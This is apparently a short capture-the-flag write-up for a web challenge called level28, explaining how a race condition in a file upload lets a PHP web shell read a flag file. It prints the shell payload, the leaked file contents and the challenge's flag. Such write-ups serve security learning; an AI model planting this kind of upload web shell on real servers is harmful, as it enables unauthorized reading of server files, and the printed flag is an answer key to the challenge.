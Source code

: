 ```yaml
---
layout: default
title: level28
---
```


Here we need to upload our webshell and then read the Flag. We've got only one second before the file get deleted, this is `RCE` combined will `TocToe`.
This will be our payload
```php
<?php
    echo htmlspecialchars(file_get_contents('/flag.php'));
?>
```
*Notice we need to use `htmlspecialchars`, without this function, it won't show us the flag!*

And then we get:
```php
<?php $flag = 'WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}';
```

**Flag:** ***`WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}`*** 
